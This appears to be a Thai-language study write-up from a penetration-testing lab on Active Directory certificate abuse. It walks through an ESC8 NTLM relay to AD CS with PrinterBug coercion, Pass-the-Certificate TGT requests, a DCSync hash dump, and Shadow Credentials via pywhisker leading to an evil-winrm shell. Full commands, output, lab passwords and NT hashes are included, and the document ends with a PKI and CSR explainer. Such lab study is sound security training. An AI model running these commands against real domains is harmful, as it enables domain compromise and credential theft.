

# Pass the Certificate

## ภาพรวม

**PKINIT** (Public Key Cryptography for Initial Authentication) เป็นส่วนขยายของโปรโตคอล Kerberos ที่ช่วยให้สามารถใช้ Public Key Cryptography ในการยืนยันตัวตนครั้งแรกได้ มักใช้กับการล็อกอินผ่าน Smart Card ซึ่งเก็บ Private Key ไว้

**วิธีการทำงานของ PKINIT:**

1. **Client มีใบรับรอง X.509 และ private key**
2. เมื่อต้องการ TGT, client จะส่ง **AS-REQ** ที่มี:
   - ใบรับรอง (certificate) ของตัวเอง
   - ข้อมูลที่ **เซ็นด้วย private key** ของ client (digital signature)
   - Pre-authentication data ที่เข้ารหัสไว้

3. **KDC ตรวจสอบ**:
   - ความถูกต้องของใบรับรอง (ตรวจสอบว่าออกโดย CA ที่เชื่อถือ)
   - ยืนยัน **digital signature โดยใช้ public key** จากใบรับรอง
   - ตรวจสอบว่าใบรับรองยังไม่หมดอายุและไม่ถูก revoke

4. ถ้าทุกอย่างถูกต้อง KDC จะเข้ารหัส TGT และส่งกลับมาใน **AS-REP**


**Pass-the-Certificate** คือเทคนิคการใช้ X.509 Certificate เพื่อขอ Ticket Granting Tickets (TGTs) ได้สำเร็จ โดยมักใช้ร่วมกับการโจมตี:
- Active Directory Certificate Services (AD CS)
- Shadow Credential attacks

**AD CS (Active Directory Certificate Services)** คือบทบาท (role) ของ Windows Server ที่ทำหน้าที่เป็น **Certificate Authority (CA)** ในสภาพแวดล้อม Active Directory

**หน้าที่หลัก:**

AD CS ใช้สำหรับ:
- **ออกใบรับรอง (issue certificates)** ให้กับ users, computers, และ services
- **จัดการวงจรชีวิตของใบรับรอง** (renewal, revocation)
- สนับสนุน **PKI (Public Key Infrastructure)** ภายในองค์กร
- รองรับการทำงานของ PKINIT, Smart Card authentication, SSL/TLS, Code Signing, Email encryption (S/MIME)

**ส่วนประกอบสำคัญ:**

1. **Certificate Authority (CA)** - ออกและจัดการใบรับรอง
2. **Certificate Templates** - แม่แบบกำหนดการใช้งานและคุณสมบัติของใบรับรอง
3. **Certificate Enrollment** - กระบวนการขอและได้รับใบรับรอง
4. **Certificate Revocation List (CRL)** - รายการใบรับรองที่ถูกเพิกถอน

**ความสำคัญใน Pentesting:**

AD CS เป็นเป้าหมายที่น่าสนใจมากเพราะมีช่องโหว่หลายแบบ:

**ESC1-ESC8** - ช่องโหว่ที่พบใน AD CS:
- **ESC1**: Misconfigured Certificate Templates ที่อนุญาตให้ระบุ Subject Alternative Name (SAN) ได้เอง
- **ESC2**: Templates ที่อนุญาตให้ใช้ใบรับรองสำหรับ authentication โดยไม่จำกัด
- **ESC3**: Enrollment Agent Templates ที่ถูกใช้ในทางที่ผิด
- **ESC4**: การตั้งค่า ACL บน Certificate Templates ที่อ่อนแอ
- **ESC6**: EDITF_ATTRIBUTESUBJECTALTNAME2 flag ที่เปิดอยู่
- **ESC7**: สิทธิ์การจัดการ CA ที่ไม่เหมาะสม
- **ESC8**: NTLM Relay to AD CS HTTP Endpoints


---


## AD CS NTLM Relay Attack (ESC8)

### ภาพรวมของ ESC8

ESC8 คือการโจมตีแบบ NTLM Relay ที่กำหนดเป้าหมายไปที่ ADCS HTTP endpoint โดย ADCS รองรับหลายวิธีในการขอใบรับรอง รวมถึง **Web Enrollment** ซึ่งโดยค่าเริ่มต้นทำงานผ่าน HTTP

Certificate Authority ที่เปิดใช้งาน Web Enrollment จะโฮสต์แอปพลิเคชันที่ `/CertSrv`


### ขั้นตอนการโจมตี

## Attack Flow:

```
1. Attacker รัน ntlmrelayx และรอรับ NTLM authentication
   ↓
2. Victim เชื่อมต่อมายัง attacker (เช่นผ่าน SMB)
   ↓
3. ntlmrelayx รับ NTLM authentication ของ victim
   ↓
4. Relay authentication ไปยัง AD CS web enrollment
   ↓
5. ขอใบรับรองจาก template "KerberosAuthentication" ในนาม victim
   ↓
6. AD CS ออกใบรับรองให้ (เพราะคิดว่าเป็น victim ที่ร้องขอจริง)
   ↓
7. Attacker ได้ certificate + private key ของ victim
   ↓
8. ใช้ certificate นี้ทำ PKINIT เพื่อขอ TGT ของ victim
```


#### 1. ตั้งค่า ntlmrelayx เพื่อรอรับการเชื่อมต่อ

```bash
impacket-ntlmrelayx -t http://10.129.234.110/certsrv/certfnsh.asp
  --adcs -smb2support --template KerberosAuthentication
```

**พารามิเตอร์:**

**`-t http://10.129.234.110/certsrv/certfnsh.asp`**
- Target คือ AD CS Web Enrollment endpoint
- `/certsrv/` เป็น web interface ของ Certificate Services
- `certfnsh.asp` เป็นหน้าที่จัดการการออกใบรับรอง

**`--adcs`**
- เปิดโหมดโจมตี AD CS โดยเฉพาะ
- ntlmrelayx จะ request ใบรับรองให้อัตโนมัติ

**`-smb2support`**
- รองรับ SMB2/SMB3 protocol
- ใช้สำหรับรับ NTLM authentication จาก SMB

**`--template KerberosAuthentication`**
- ระบุว่าจะขอใบรับรองจาก template ชื่อ "KerberosAuthentication"
- Template นี้ใช้สำหรับ PKINIT authentication
- `--template`: Certificate template ที่ใช้โดย Domain Controllers (สามารถ enumerate ได้ด้วย certipy)

คำสั่งนี้เป็นการทำ **NTLM Relay Attack ไปยัง AD CS** เพื่อขอใบรับรองมาแบบไม่ได้รับอนุญาต (ESC8 vulnerability)


#### 2. บังคับให้เหยื่อทำการ Authenticate (Coercion)

**วิธีที่ 1: รอให้เหยื่อเชื่อมต่อมาเอง**

**วิธีที่ 2: ใช้ Printer Bug บังคับให้ Machine Account เชื่อมต่อ**

```bash
python3 printerbug.py INLANEFREIGHT.LOCAL/wwhite:"package5shores_topher1"@10.129.234.109 10.10.16.12
```

**คำอธิบาย:**
- เป้าหมาย: `10.129.234.109` (DC01)
- โฮสต์ผู้โจมตี: `10.10.16.12`
- ต้องการให้ Printer Spooler service ทำงานอยู่บนเครื่องเป้าหมาย

**ผลลัพธ์:**
```
[*] Attempting to trigger authentication via rprn RPC at 10.129.234.109
[*] Bind OK
[*] Got handle
RPRN SessionError: code: 0x6ba - RPC_S_SERVER_UNAVAILABLE
[*] Triggered RPC backconnect, this may or may not have worked
```

#### 3. ตรวจสอบผลลัพธ์จาก ntlmrelayx

```
[*] SMBD-Thread-5: Received connection from 10.129.234.109
[*] Authenticating against http://10.129.234.110 as INLANEFREIGHT/DC01$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 8
[*] Writing PKCS#12 certificate to ./DC01$.pfx
[*] Certificate successfully written to file
```

✅ **สำเร็จ:** ได้ Certificate สำหรับ `DC01$` แล้ว

---

## การทำ Pass-the-Certificate เพื่อขอ TGT

### การติดตั้ง PKINITtools

```bash
# Clone repository
git clone https://github.com/dirkjanm/PKINITtools.git && cd PKINITtools

# สร้าง virtual environment
python3 -m venv .venv
source .venv/bin/activate

# ติดตั้ง dependencies
pip3 install -r requirements.txt
```

### แก้ไขปัญหา libcrypto (ถ้ามี)

```bash
pip3 install -I git+https://github.com/wbond/oscrypto.git
```

### ขอ TGT ด้วย gettgtpkinit.py

```bash
python3 gettgtpkinit.py -cert-pfx ../krbrelayx/DC01\$.pfx -dc-ip 10.129.234.109 'inlanefreight.local/dc01$'  /tmp/dc.ccache
```

**ผลลัพธ์:**
```
2025-04-28 21:20:40,073 minikerberos INFO     Loading certificate and key from file
2025-04-28 21:20:40,351 minikerberos INFO     Requesting TGT
2025-04-28 21:21:05,508 minikerberos INFO     AS-REP encryption key (you might need this later):
2025-04-28 21:21:05,508 minikerberos INFO     3a1d192a28a4e70e02ae4f1d57bad4adbc7c0b3e7dceb59dab90b8a54f39d616
2025-04-28 21:21:05,512 minikerberos INFO     Saved TGT to file
```

### ทำ DCSync Attack

DCSync เป็นเทคนิคการโจมตีที่ใช้เลียนแบบพฤติกรรมของ Domain Controller (DC) เพื่อขอข้อมูล credentials จาก DC ตัวอื่นในโดเมน โดยใช้ประโยชน์จากกลไกการ replication ปกติของ Active Directory


เมื่อผู้โจมตีได้สิทธิ์ที่จำเป็น (เช่น Domain Admin, Enterprise Admin, หรือ user ที่มีสิทธิ์ replication) จะสามารถ:

1. ส่ง request แบบ DC ไปยัง DC ตัวอื่น
2. ขอข้อมูล password hashes ของ users ทั้งหมด รวมถึง **krbtgt account**
3. ดึงข้อมูลได้โดยไม่ต้อง login เข้า DC โดยตรง

เมื่อได้ TGT ของ Domain Controller แล้ว เราสามารถทำ DCSync เพื่อดึง NTLM hash ของ Administrator:

```bash
# Set Kerberos ticket
export KRB5CCNAME=/tmp/dc.ccache

# ทำ DCSync
impacket-secretsdump -k -no-pass -dc-ip 10.129.234.109 -just-dc-user Administrator 'INLANEFREIGHT.LOCAL/DC01$'@DC01.INLANEFREIGHT.LOCAL
```

impacket-secretsdump เป็นเครื่องมือใน Impacket suite ที่ใช้ดึงข้อมูล credentials จากระบบ Windows

**ผลลัพธ์:**
```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:...SNIP...:::
```

---

## Shadow Credentials (msDS-KeyCredentialLink)

### ภาพรวม

Shadow Credentials เป็นการโจมตี Active Directory ที่ใช้ช่องโหว่ของ attribute `msDS-KeyCredentialLink` ของผู้ใช้เป้าหมาย

**Attribute นี้:**
- เก็บ Public Keys สำหรับการยืนยันตัวตนผ่าน PKINIT
- ถ้าเรามีสิทธิ์เขียน (Write) attribute นี้ของผู้ใช้คนอื่น เราสามารถยึดควบคุมบัญชีนั้นได้

### การค้นหาช่องโหว่ใน BloodHound

ใน BloodHound มอง edge ชื่อ **AddKeyCredentialLink** ซึ่งแสดงว่าผู้ใช้คนหนึ่งมีสิทธิ์เขียน msDS-KeyCredentialLink ของอีกคนหนึ่ง



## Attack Flow:

```
1. Attacker มีบัญชี wwhite ที่ compromise มาแล้ว
   ↓
2. ตรวจสอบว่า wwhite มีสิทธิ์แก้ไข msDS-KeyCredentialLink ของ jpinkman
   ↓
3. ใช้ pywhisker สร้าง key pair และเพิ่ม public key ลงใน jpinkman
   ↓
4. AD คิดว่า jpinkman มี certificate สำหรับ PKINIT authentication
   ↓
5. ใช้ gettgtpkinit.py + private key ทำ PKINIT
   ↓
6. DC ตรวจสอบ public key ที่เก็บไว้ใน msDS-KeyCredentialLink
   ↓
7. DC ออก TGT ให้ในนาม jpinkman
   ↓
8. Attacker ได้ TGT ของ jpinkman โดยไม่ต้องรู้รหัสผ่าน!
```

### การโจมตีด้วย pywhisker

#### 1. เพิ่ม Public Key ลงใน msDS-KeyCredentialLink

```bash
pywhisker --dc-ip 10.129.234.109 -d INLANEFREIGHT.LOCAL -u wwhite -p 'package5shores_topher1' --target jpinkman --action add
```

**ทำอะไร:**
- ใช้บัญชี `wwhite` (ที่มีรหัสผ่าน) 
- แก้ไข attribute `msDS-KeyCredentialLink` ของบัญชี `jpinkman`
- เพิ่ม **fake certificate credential** เข้าไปในบัญชี jpinkman
- สร้าง key pair (public/private key) ใหม่
- บันทึก public key ลงใน AD และเก็บ private key ไว้ที่ attacker

**Output ที่ได้:**
- ไฟล์ `.pfx` (เช่น `eFUVVTPf.pfx`) ที่มี private key
- รหัสผ่านของไฟล์ pfx (เช่น `bmRH4LK7UwPrAOfvIx6W`)


**ผลลัพธ์:**
```
[*] Searching for the target account
[*] Target user found: CN=Jesse Pinkman,CN=Users,DC=inlanefreight,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 3496da7f-ab0d-13e0-1273-5abca66f901d
[*] Updating the msDS-KeyCredentialLink attribute of jpinkman
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: eFUVVTPf.pfx
[+] PFX exportiert nach: eFUVVTPf.pfx
[i] Passwort für PFX: bmRH4LK7UwPrAOfvIx6W
[+] Saved PFX (#PKCS12) certificate & key at path: eFUVVTPf.pfx
[*] Must be used with password: bmRH4LK7UwPrAOfvIx6W
```

**ได้:**
- PFX file: `eFUVVTPf.pfx`
- Password: `bmRH4LK7UwPrAOfvIx6W`

#### 2. ขอ TGT ในนาม jpinkman

```bash
python3 gettgtpkinit.py -cert-pfx ../eFUVVTPf.pfx -pfx-pass 'bmRH4LK7UwPrAOfvIx6W' -dc-ip 10.129.234.109 INLANEFREIGHT.LOCAL/jpinkman /tmp/jpinkman.ccache
```

**ทำอะไร:**
- ใช้ certificate จาก `.pfx` file
- ทำ **PKINIT authentication** กับ DC
- ขอ **TGT (Ticket Granting Ticket)** ของ `jpinkman`
- บันทึก TGT ลงในไฟล์ `/tmp/jpinkman.ccache`

**ผลลัพธ์:**
```
2025-04-28 20:50:04,728 minikerberos INFO     Loading certificate and key from file
2025-04-28 20:50:04,775 minikerberos INFO     Requesting TGT
2025-04-28 20:50:04,929 minikerberos INFO     AS-REP encryption key (you might need this later):
2025-04-28 20:50:04,929 minikerberos INFO     f4fa8808fb476e6f982318494f75e002f8ee01c64199b3ad7419f927736ffdb8
2025-04-28 20:50:04,937 minikerberos INFO     Saved TGT to file
```

#### 3. ใช้ TGT เพื่อเข้าถึงระบบ

```bash
# Set Kerberos ticket
export KRB5CCNAME=/tmp/jpinkman.ccache

# ตรวจสอบ ticket
klist
```

**ผลลัพธ์:**
```
Ticket cache: FILE:/tmp/jpinkman.ccache
Default principal: jpinkman@INLANEFREIGHT.LOCAL

Valid starting       Expires              Service principal
04/28/2025 20:50:04  04/29/2025 06:50:04  krbtgt/INLANEFREIGHT.LOCAL@INLANEFREIGHT.LOCAL
```

#### 4. เชื่อมต่อผ่าน WinRM

ถ้าผู้ใช้เป็นสมาชิกของ Remote Management Users group:

```bash
evil-winrm -i dc01.inlanefreight.local -r inlanefreight.local
```

**ผลลัพธ์:**
```
Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jpinkman\Documents> whoami
inlanefreight\jpinkman
```

---

## กรณีที่ไม่มี PKINIT Support

### ปัญหา

ในบางสภาพแวดล้อม attacker อาจได้ Certificate แต่ไม่สามารถใช้สำหรับ Pre-authentication ได้ เพราะ:
- KDC ไม่รองรับ EKU (Extended Key Usage) ที่เหมาะสม
- ข้อจำกัดของ Domain Controller machine account

### วิธีแก้: ใช้ PassTheCert

**PassTheCert** เป็นเครื่องมือที่:
- ใช้ Certificate เพื่อยืนยันตัวตนกับ LDAPS
- ทำการโจมตีหลายรูปแบบ:
  - เปลี่ยนรหัสผ่าน
  - ให้สิทธิ์ DCSync
  - และอื่นๆ

**อ่านเพิ่มเติม:** [PassTheCert Documentation](https://github.com/AlmondOffSec/PassTheCert)

---


ESC8—as described in the Certified Pre-Owned paper
https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf

Note: The value passed to --template may be different in other environments. This is simply the certificate template which is used by Domain Controllers for authentication. This can be enumerated with tools like certipy.
https://github.com/ly4k/Certipy

 force machine accounts to authenticate against arbitrary hosts is by exploiting the printer bug. This attack requires the targeted machine account to have the Printer Spooler service running.
https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py

 perform a Pass-the-Certificate attack to obtain a TGT
https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py

 use pywhisker to perform this attack from a Linux system. The command below generates an X.509 certificate and writes the public key to the victim user's msDS-KeyCredentialLink attribute:
https://github.com/ShutdownRepo/pywhisker


```
┌──(kali㉿kali)-[~/PKINITtools]
└─$ impacket-ntlmrelayx -t http://10.129.234.172/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.129.234.174, attacking target http://10.129.234.172
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://10.129.234.172 as INLANEFREIGHT/DC01$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] SMBD-Thread-7 (process_request_thread): Received connection from 10.129.234.174, attacking target http://10.129.234.172
[-] Authenticating against http://10.129.234.172 as / FAILED
[*] GOT CERTIFICATE! ID 13
[*] Writing PKCS#12 certificate to ./DC01$.pfx
[*] Certificate successfully written to file


┌──(kali㉿kali)-[~/krbrelayx-master]
└─$ python3 printerbug.py INLANEFREIGHT.LOCAL/wwhite:"package5shores_topher1"@10.129.234.174 10.10.15.67

┌──(kali㉿kali)-[~/PKINITtools]
└─$ python3 gettgtpkinit.py -cert-pfx DC01\$.pfx -dc-ip 10.129.234.172 'inlanefreight.local/dc01$' /tmp/dc.ccache

┌──(kali㉿kali)-[~/PKINITtools]
└─$ export KRB5CCNAME=/tmp/dc.ccache

┌──(kali㉿kali)-[~/PKINITtools]
└─$ klist
Ticket cache: FILE:/tmp/dc.ccache
Default principal: dc01$@INLANEFREIGHT.LOCAL

Valid starting       Expires              Service principal
11/17/2025 23:41:20  11/18/2025 09:41:20  krbtgt/INLANEFREIGHT.LOCAL@INLANEFREIGHT.LOCAL
11/17/2025 23:51:37  11/18/2025 09:41:20  HTTP/dc01.inlanefreight.local@INLANEFREIGHT.LOCAL
                                                                                                                       
┌──(kali㉿kali)-[~/PKINITtools]
└─$ cat /etc/krb5.conf
[libdefaults]
default_realm = INLANEFREIGHT.LOCAL
dns_lookup_realm = true
dns_lookup_kdc = true
ticket_lifetime = 24h
forwardable = true

[realms]
INLANEFREIGHT.LOCAL = {
    kdc = dc01.inlanefreight.local
    admin_server = dc01.inlanefreight.local
}

```


```
┌──(kali㉿kali)-[~/krbrelayx-master]
└─$ evil-winrm -i 10.129.234.174 -u jpinkman -H 9d995e5865f9dbfc701210466f0c78fe   

┌──(kali㉿kali)-[~/krbrelayx-master]
└─$ evil-winrm -i 10.129.234.174 -u Administrator  -H fd02e525dd676fd8ca04e200d265f20c    
```


## เพิ่มเติม


## Certificate vs PFX File

### **Certificate (ใบรับรอง) มีแค่:**
- **Public Key** (กุญแจสาธารณะ)
- ข้อมูลเจ้าของ (Subject)
- ข้อมูล CA ที่ออกให้ (Issuer)
- วันหมดอายุ
- ลายเซ็นดิจิทัลจาก CA

**Certificate ไม่มี Private Key!** เป็นเอกสารสาธารณะที่แชร์ได้

### **PFX File (.pfx หรือ .p12) มี:**
- **Certificate** (public key + ข้อมูลทั้งหมด)
- **Private Key** (กุญแจส่วนตัว) ⬅️ นี่สำคัญมาก!
- (บางครั้ง) **Certificate Chain** (Intermediate CA, Root CA)
- **Password protected** - ต้องมีรหัสผ่านถึงจะเปิดได้

## ภายใน PFX File:

```
📦 jpinkman.pfx (password: 'bmRH4LK7UwPrAOfvIx6W')
├── 🔑 Private Key (RSA 2048-bit)
│   └── ใช้เซ็นและถอดรหัส
│
├── 📄 Certificate (X.509)
│   ├── Public Key
│   ├── Subject: CN=jpinkman
│   ├── Issuer: CN=CA
│   ├── Valid From/To
│   ├── Serial Number
│   └── Digital Signature (จาก CA)
│
└── 📜 Certificate Chain (optional)
    ├── Intermediate CA cert
    └── Root CA cert
```


### **1. User สร้าง CSR:**
```
Data = (Public Key + DN)
Signature = Sign(Hash(Data), Private Key ของ user)

CSR = Data + Signature
```

### **2. CA รับ CSR มา:**

CA จะ **verify signature** ด้วยขั้นตอนนี้:

```
1. แยกเอา Data (Public Key + DN) ออกมา
2. แยกเอา Signature ออกมา
3. Hash(Data) ได้ Hash value H1
4. ถอด Signature ด้วย Public Key (ที่อยู่ใน Data) ได้ Hash value H2
5. เปรียบเทียบ H1 == H2
```

✅ **ถ้าเท่ากัน** = พิสูจน์ได้ว่าผู้สร้าง CSR เป็นเจ้าของ private key จริง

---


# 🔐 Certificate Request & Issuance Flow (แบบละเอียด)

```
┌─────────────────────────────────────────────────────────────────┐
│ STEP 1: Key Pair Generation (บนเครื่องผู้ขอ Certificate)        │
└─────────────────────────────────────────────────────────────────┘

[ผู้ขอ Certificate]
   │
   ├─► สร้าง Private Key
   │   • RSA 2048/4096 bits หรือ ECC P-256/P-384
   │   • เก็บไว้ใน secure storage (ห้ามส่งออกไปไหน!)
   │   • ตั้งรหัสผ่านป้องกัน (แนะนำ)
   │   
   │   $ openssl genrsa -aes256 -out private.key 2048
   │   Enter passphrase: ********
   │   
   └─► คำนวณ Public Key จาก Private Key
       • Public Key = f(Private Key)
       • ใช้คู่กันในการเข้ารหัส/ถอดรหัส
       
       $ openssl rsa -in private.key -pubout -out public.key


┌─────────────────────────────────────────────────────────────────┐
│ STEP 2: สร้าง CSR (Certificate Signing Request)                 │
└─────────────────────────────────────────────────────────────────┘

[ผู้ขอ Certificate]
   │
   ├─► เตรียมข้อมูลเจ้าของ (Subject Information)
   │   • Common Name (CN): example.com
   │   • Organization (O): บริษัท ABC จำกัด
   │   • Organizational Unit (OU): IT Department
   │   • Country (C): TH
   │   • State/Province (ST): Bangkok
   │   • Locality (L): Bangkok
   │   • Email: admin@example.com
   │   
   ├─► สร้าง CSR File
   │   $ openssl req -new -key private.key -out request.csr
   │   
   │   CSR ประกอบด้วย:
   │   ┌────────────────────────────────┐
   │   │ 1. Public Key (ของผู้ขอ)       │
   │   │ 2. Subject Information         │
   │   │ 3. Subject Alternative Names   │
   │   │    - DNS: *.example.com        │
   │   │    - DNS: www.example.com      │
   │   │ 4. Key Usage Extensions        │
   │   │    - digitalSignature          │
   │   │    - keyEncipherment           │
   │   └────────────────────────────────┘
   │   
   └─► เซ็นชื่อ CSR ด้วย Private Key (Self-Signature)
       • พิสูจน์ว่าเรามี Private Key จริง
       • ป้องกันการแก้ไข CSR ระหว่างส่ง
       
       [Hash(CSR Data)] --[EncryptWithPrivateKey]--> Digital Signature
       
       ✅ CSR = Public Key + ข้อมูล + Signature
       

┌─────────────────────────────────────────────────────────────────┐
│ STEP 3: ส่ง CSR ไปยัง CA (Certificate Authority)                │
└─────────────────────────────────────────────────────────────────┘

[ผู้ขอ Certificate]
   │
   ├─► ตรวจสอบ CSR ก่อนส่ง
   │   $ openssl req -text -noout -verify -in request.csr
   │   
   │   verify OK  ✓
   │   
   ├─► เลือกช่องทางส่ง CSR
   │   • Web Portal (วางไฟล์ .csr)
   │   • API Request (POST base64 encoded CSR)
   │   • Email (แนบไฟล์)
   │   • ACME Protocol (อัตโนมัติ - Let's Encrypt)
   │   
   └─► ส่ง CSR + เอกสารประกอบ
       • Domain validation proof
       • Organization documents
       • Payment confirmation
       
       [CSR File] ----[HTTPS]----> [CA Server]
       

┌─────────────────────────────────────────────────────────────────┐
│ STEP 4: CA ตรวจสอบและออก Certificate                             │
└─────────────────────────────────────────────────────────────────┘

[CA - Certificate Authority]
   │
   ├─► รับและตรวจสอบ CSR
   │   ├─ Verify CSR Signature (ใช้ Public Key ใน CSR)
   │   ├─ ตรวจสอบ format และ syntax
   │   └─ ดู key strength (ต้อง >= 2048 bits)
   │   
   ├─► ทำ Domain/Organization Validation
   │   │
   │   ┌─ DV (Domain Validation)
   │   │  • Email verification (admin@example.com)
   │   │  • HTTP challenge (/.well-known/acme-challenge/)
   │   │  • DNS TXT record
   │   │
   │   ┌─ OV (Organization Validation)  
   │   │  • ตรวจสอบเอกสารบริษัท
   │   │  • โทรยืนยันตัวตน
   │   │  • ตรวจสอบที่ตั้งบริษัท
   │   │
   │   └─ EV (Extended Validation)
   │      • ตรวจสอบแบบเข้มงวดที่สุด
   │      • ตรวจสอบสถานะทางกฎหมาย
   │      • สัมภาษณ์เจ้าหน้าที่
   │   
   ├─► Policy Check
   │   • ตรวจสอบ Certificate Policy (CP)
   │   • Certificate Practice Statement (CPS)
   │   • ตรวจสอบ blacklist domains
   │   
   ├─► สร้าง Certificate
   │   
   │   Certificate ประกอบด้วย:
   │   ┌─────────────────────────────────────────┐
   │   │ Version: v3                             │
   │   │ Serial Number: 1A:2B:3C:4D:...         │
   │   │ Signature Algorithm: sha256WithRSA      │
   │   │                                         │
   │   │ Issuer: CN=CA Name, O=CA Org,...       │
   │   │                                         │
   │   │ Validity:                               │
   │   │   Not Before: 2025-11-19 00:00:00 UTC  │
   │   │   Not After:  2026-11-19 23:59:59 UTC  │
   │   │                                         │
   │   │ Subject: CN=example.com, O=ABC,...     │
   │   │                                         │
   │   │ Subject Public Key Info:                │
   │   │   Algorithm: rsaEncryption             │
   │   │   Public Key: (2048 bit)               │
   │   │   [Public Key ของผู้ขอจาก CSR]         │
   │   │                                         │
   │   │ Extensions:                             │
   │   │   X509v3 Subject Alternative Name:     │
   │   │     DNS:example.com                    │
   │   │     DNS:*.example.com                  │
   │   │   X509v3 Key Usage: Critical           │
   │   │     Digital Signature, Key Encipherment│
   │   │   X509v3 Extended Key Usage:           │
   │   │     TLS Web Server Authentication      │
   │   │   X509v3 Authority Key Identifier      │
   │   │   X509v3 Subject Key Identifier        │
   │   │   X509v3 CRL Distribution Points       │
   │   │   Authority Info Access (OCSP)         │
   │   └─────────────────────────────────────────┘
   │   
   └─► เซ็นชื่อ Certificate ด้วย CA's Private Key
       
       1. Hash ข้อมูล Certificate ทั้งหมด
          [Certificate Data] --[SHA-256]--> [Hash Value]
       
       2. เข้ารหัส Hash ด้วย CA's Private Key
          [Hash] --[Encrypt with CA Private Key]--> [CA Signature]
       
       3. แนบ Signature เข้า Certificate
       
       ┌────────────────────────────────────┐
       │ Certificate Data                   │
       │ + CA's Digital Signature           │
       │   (พิสูจน์ว่า CA รับรองแล้ว)        │
       └────────────────────────────────────┘


┌─────────────────────────────────────────────────────────────────┐
│ STEP 5: รับ Certificate กลับมา                                  │
└─────────────────────────────────────────────────────────────────┘

[CA] ----[ส่งกลับ]----> [ผู้ขอ Certificate]
   │
   ├─► CA ส่งคืนไฟล์:
   │   • certificate.crt (End-entity certificate)
   │   • intermediate.crt (Intermediate CA certificate)
   │   • root.crt (Root CA certificate - optional)
   │   • ca-bundle.crt (Chain ทั้งหมด)
   │   
   ├─► ผู้รับตรวจสอบ Certificate
   │   $ openssl x509 -in certificate.crt -text -noout
   │   
   │   ตรวจสอบ:
   │   ✓ Common Name ถูกต้อง
   │   ✓ Validity period
   │   ✓ Public Key ตรงกับของเรา
   │   ✓ Issuer เป็น CA ที่ถูกต้อง
   │   ✓ Signature valid
   │   
   └─► Verify Certificate Chain
       
       [Root CA Certificate]
              ↓ (เซ็นโดย Root CA Private Key)
       [Intermediate CA Certificate]  
              ↓ (เซ็นโดย Intermediate CA Private Key)
       [End-Entity Certificate] ← Certificate ของเรา
       
       $ openssl verify -CAfile ca-bundle.crt certificate.crt
       certificate.crt: OK ✓


┌─────────────────────────────────────────────────────────────────┐
│ STEP 6: รวม Certificate + Private Key = PFX/PKCS#12             │
└─────────────────────────────────────────────────────────────────┘

[ผู้ขอ Certificate]
   │
   ├─► เตรียมไฟล์ที่จะรวม:
   │   • private.key        (Private Key จาก Step 1)
   │   • certificate.crt    (Certificate จาก CA)
   │   • ca-bundle.crt      (Certificate Chain)
   │   
   ├─► สร้าง PFX/PKCS#12 File
   │   
   │   $ openssl pkcs12 -export \
   │       -out certificate.pfx \
   │       -inkey private.key \
   │       -in certificate.crt \
   │       -certfile ca-bundle.crt \
   │       -name "My Certificate"
   │   
   │   Enter Export Password: ********
   │   
   │   PFX Container ประกอบด้วย:
   │   ┌────────────────────────────────────┐
   │   │ [Encrypted Container]              │
   │   │                                    │
   │   │ ├─ Private Key (encrypted)         │
   │   │ ├─ End-entity Certificate          │
   │   │ ├─ Intermediate Certificate(s)     │
   │   │ └─ Root Certificate (optional)     │
   │   │                                    │
   │   │ Protected by: Export Password      │
   │   └────────────────────────────────────┘
   │   
   ├─► ตรวจสอบ PFX
   │   $ openssl pkcs12 -info -in certificate.pfx
   │   Enter Import Password: ********
   │   
   │   แสดง:
   │   • Private Key info
   │   • Certificate chain
   │   • Friendly name
   │   
   └─► Deploy Certificate
       
       ┌─ Windows
       │  • Import to Certificate Store
       │  • IIS Binding
       │  
       ┌─ Linux
       │  • Extract แยกไฟล์
       │  • Config Apache/Nginx
       │  
       └─ Application
          • Load PFX in code
          • Use for TLS/SSL


┌─────────────────────────────────────────────────────────────────┐
│ BONUS: Certificate Validation Flow (เมื่อมีคนเข้า HTTPS)       │
└─────────────────────────────────────────────────────────────────┘

[Client Browser]
   │
   ├─► Connect to https://example.com
   │
   ├─► Server ส่ง Certificate Chain มา
   │   [Server Certificate] + [Intermediate CA] + [Root CA]
   │
   ├─► Browser ตรวจสอบ:
   │   
   │   1. ตรวจสอบ Certificate Chain
   │      Root CA → Intermediate CA → Server Cert
   │      (Root CA ต้องอยู่ใน Trusted Root Store)
   │   
   │   2. ตรวจสอบ Signature ทุกชั้น
   │      • Decrypt signature ด้วย Public Key
   │      • Compare กับ hash ของ certificate data
   │   
   │   3. ตรวจสอบ Validity Period
   │      Current Date อยู่ระหว่าง Not Before - Not After
   │   
   │   4. ตรวจสอบ Revocation Status
   │      • OCSP (Online Certificate Status Protocol)
   │      • CRL (Certificate Revocation List)
   │   
   │   5. ตรวจสอบ Domain Name
   │      • CN หรือ SAN ตรงกับ hostname
   │   
   │   6. ตรวจสอบ Key Usage
   │      • มี "TLS Web Server Authentication"
   │   
   └─► ✅ ถ้าผ่านทุกข้อ → แสดง 🔒 (Secure)
